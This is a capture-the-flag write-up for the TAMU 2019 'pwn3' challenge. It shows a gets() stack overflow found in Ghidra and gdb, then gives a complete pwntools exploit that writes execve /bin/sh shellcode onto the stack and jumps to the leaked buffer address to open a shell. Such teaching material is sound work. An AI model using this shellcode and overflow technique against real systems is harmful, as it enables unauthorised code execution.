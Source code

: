 # Tamu 2019 Pwn 3

Let's take a look at the binary:

```
$	file pwn3 
pwn3: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=6ea573b4a0896b428db719747b139e6458d440a0, not stripped
$	./pwn3 
Take this, you might need it on your journey 0xffa1c61e!
15935728
```

So we are dealing with a 32 bit binary. When we run it, it prints out what looks like a stack address and prompts us for input. When we take a look at the main function in Ghidra, we see this:

```
/* WARNING: Type propagation algorithm not settling */

undefined4 main(void)

{
  int iVar1;
  
  iVar1 = __x86.get_pc_thunk.ax(&stack0x00000004);
  setvbuf((FILE *)(*(FILE **)(iVar1 + 0x19fd))->_flags,(char *)0x2,0,0);
  echo();
  return 0;
}
```

Looking through the main function, the most important thing here is that it calls the `echo` function. Let's take a look at that function in Ghidra:

```
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

void echo(void)

{
  char input [294];
  
  printf("Take this, you might need it on your journey %p!\n",input);
  gets(input);
  return;
}
```

So we can see that this function prints the address of the char buffer `input`, then calls `gets` with `input` as an argument. This is a bug since `gets` doesn't restrict how much data it scans in, we get an overflow. With this we can overwrite the return address and get code execution. The question is now what do we call? There aren't any functions that will either print the flag or give us a shell like in some of the previous challenges. We will instead be using shellcode.

Shellcode is essentially just precompiled code that we can inject into a binary's memory, and if we redirect code execution to it it will run. It will need to match the architecture, so we will need to have arm for x86 linux. Whenever I need just generic shellcode I typically grab it from http://shell-storm.org/shellcode/ (or you could just google for shellcode, or make it yourself which we will cover later). I'll be using the `Linux/x86 - execve /bin/sh shellcode - 23 bytes` shellcode by `Hamza Megahed` found at `http://shell-storm.org/shellcode/files/shellcode-827.php`. The shellcode I'm using will just pop a shell for us when we run it.

Now we can inject it into memory, however we need to deal with something called ASLR (Address Space Layout Randomization). This is a binary mitigation (a mechanism made to make pwning harder). What it does is it randomizes all of the addresses for various memory regions, so every time the binary runs we don't know where things are in memory. While the addresses are random, the offsets between things in the same memory region remain the same. So if we just leak a single address from a memory region that we know what it is, since the offsets are the same we can figure out the address of anything else in the memory region.

This also applies to where our shellcode is stored in memory, which we need to know in order to call it. Luckily for us, the address printed is the start of our input on the stack. So we can just take that address and overwrite the return address with it, to call our shellcode.

Let's use gdb to see how much space we have between the start of our input and the return address:

```
gef➤  disas echo
Dump of assembler code for function echo:
   0x0000059d <+0>:	push   ebp
   0x0000059e <+1>:	mov    ebp,esp
   0x000005a0 <+3>:	push   ebx
   0x000005a1 <+4>:	sub    esp,0x134
   0x000005a7 <+10>:	call   0x4a0 <__x86.get_pc_thunk.bx>
   0x000005ac <+15>:	add    ebx,0x1a20
   0x000005b2 <+21>:	sub    esp,0x8
   0x000005b5 <+24>:	lea    eax,[ebp-0x12a]
   0x000005bb <+30>:	push   eax
   0x000005bc <+31>:	lea    eax,[ebx-0x191c]
   0x000005c2 <+37>:	push   eax
   0x000005c3 <+38>:	call   0x410 <printf@plt>
   0x000005c8 <+43>:	add    esp,0x10
   0x000005cb <+46>:	sub    esp,0xc
   0x000005ce <+49>:	lea    eax,[ebp-0x12a]
   0x000005d4 <+55>:	push   eax
   0x000005d5 <+56>:	call   0x420 <gets@plt>
   0x000005da <+61>:	add    esp,0x10
   0x000005dd <+64>:	nop
   0x000005de <+65>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x000005e1 <+68>:	leave  
   0x000005e2 <+69>:	ret    
End of assembler dump.
gef➤  b *echo+61
Breakpoint 1 at 0x5da
gef➤  r
Starting program: /Hackery/pod/modules/bof_shellcode/tamu19_pwn3/pwn3 
Take this, you might need it on your journey 0xffffcf3e!
15935728
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffffcf3e  →  "15935728"
$ebx   : 0x56556fcc  →  <_GLOBAL_OFFSET_TABLE_+0> aam 0x1e
$ecx   : 0xf7faf5c0  →  0xfbad2288
$edx   : 0xf7fb089c  →  0x00000000
$esp   : 0xffffcf20  →  0xffffcf3e  →  "15935728"
$ebp   : 0xffffd068  →  0xffffd078  →  0x00000000
$esi   : 0xf7faf000  →  0x001d7d6c ("l}"?)
$edi   : 0x0       
$eip   : 0x565555da  →  <echo+61> add esp, 0x10
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
───────────────────────────────────────────────────────────────────── stack ────
0xffffcf20│+0x0000: 0xffffcf3e  →  "15935728"	 ← $esp
0xffffcf24│+0x0004: 0xffffcf3e  →  "15935728"
0xffffcf28│+0x0008: 0xffffcf4c  →  0x00000000
0xffffcf2c│+0x000c: 0x565555ac  →  <echo+15> add ebx, 0x1a20
0xffffcf30│+0x0010: 0x00000000
0xffffcf34│+0x0014: 0x00000000
0xffffcf38│+0x0018: 0x00000000
0xffffcf3c│+0x001c: 0x35310000
─────────────────────────────────────────────────────────────── code:x86:32 ────
   0x565555ce <echo+49>        lea    eax, [ebp-0x12a]
   0x565555d4 <echo+55>        push   eax
   0x565555d5 <echo+56>        call   0x56555420 <gets@plt>
 → 0x565555da <echo+61>        add    esp, 0x10
   0x565555dd <echo+64>        nop    
   0x565555de <echo+65>        mov    ebx, DWORD PTR [ebp-0x4]
   0x565555e1 <echo+68>        leave  
   0x565555e2 <echo+69>        ret    
   0x565555e3 <main+0>         lea    ecx, [esp+0x4]
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "pwn3", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x565555da → echo()
[#1] 0x5655561a → main()
────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x565555da in echo ()
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[heap]'(0x56558000-0x5657a000), permission=rwx
  0x56558160 - 0x56558168  →   "15935728" 
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rwx
  0xffffcf3e - 0xffffcf46  →   "15935728" 
gef➤  info frame
Stack level 0, frame at 0xffffd070:
 eip = 0x565555da in echo; saved eip = 0x5655561a
 called by frame at 0xffffd090
 Arglist at 0xffffd068, args: 
 Locals at 0xffffd068, Previous frame's sp is 0xffffd070
 Saved registers:
  ebx at 0xffffd064, ebp at 0xffffd068, eip at 0xffffd06c
```  

Just a bit of math:

```
>>> hex(0xffffd06c - 0xffffcf3e)
'0x12e'
```

So the space between the start of our input and the return address is `0x12e` bytes. This makes sense since the char array which holds our input is `294` bytes large, and there are two saved register values (ebx and ebp) on the stack in between our input and the saved return address each `4` bytes a piece (`294 + 4 + 4 = 0x12e`). With all of this, we have all we need to write the exploit:

```
from pwn import *

target = process('./pwn3')

# Print out the text, up to the address of the start of our input
print target.recvuntil("journey ")

# Scan in the rest of the line
leak = target.recvline()

# Strip away the characters not part of our address
shellcodeAdr = int(leak.strip("!\n"), 16)

# Make the payload
payload = ""
# Our shellcode from: http://shell-storm.org/shellcode/files/shellcode-827.php
payload += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
# Pad the rest of the space to the return address with zeroes
payload += "0"*(0x12e - len(payload))
# Overwrite the return address with te leaked address which points to the start of our shellcode
payload += p32(shellcodeAdr)

# Send the payload
target.sendline(payload)

# Drop to an interactive shell to use our newly popped shell
target.interactive()
```

When we run it:
```
$	python exploit.py 
[+] Starting local process './pwn3': pid 5149
Take this, you might need it on your journey 
[*] Switching to interactive mode
$ w
 19:33:06 up  2:19,  1 user,  load average: 0.01, 0.05, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               17:14    2:19m 40.15s  0.16s /sbin/upstart --user
$ ls
exploit.py  pwn3
```

Just like that, we popped a shell!
